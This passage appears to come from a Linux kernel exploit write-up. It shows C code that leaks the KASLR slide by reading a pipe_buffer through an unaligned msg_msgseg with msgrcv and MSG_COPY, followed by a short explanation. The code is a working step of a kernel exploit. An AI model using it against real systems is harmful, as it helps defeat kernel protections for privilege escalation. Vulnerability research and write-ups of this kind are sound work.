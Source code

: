 - [exploit/extra-refined/exploit.c#L942](../exploit/extra-refined/exploit.c#L942)
```c
// leak the kalsr slide with anon_pipe_buf_ops leak
uintptr_t kaslr_slide = -1;
uintptr_t anon_pipe_buf_ops_addr = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 500; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

anon_pipe_buf_ops_addr = payload[513];
if ((anon_pipe_buf_ops_addr & 0xfff) != (curr_gadget->anon_pipe_buf_ops_offset & 0xfff))
{
	err(1, "fail to leak kaslr...");
}
printf("[+] anon_pipe_buf_ops_addr : %p\n", anon_pipe_buf_ops_addr);
kaslr_slide = anon_pipe_buf_ops_addr - curr_gadget->anon_pipe_buf_ops_offset;
printf("[+] kaslr slide : %p\n", kaslr_slide);
```
Now we can finally get the KASLR leak by reading `struct pipe_buffer` object through the unaligned `struct msg_msgseg` held by `msgqids1[0]`. Note that we used `MSG_COPY` flag with `msgrcv` syscall since we don't want the unaligned `struct msg_msgseg` chunk to be freed yet.

![lts_5](./img/lts_5.png)
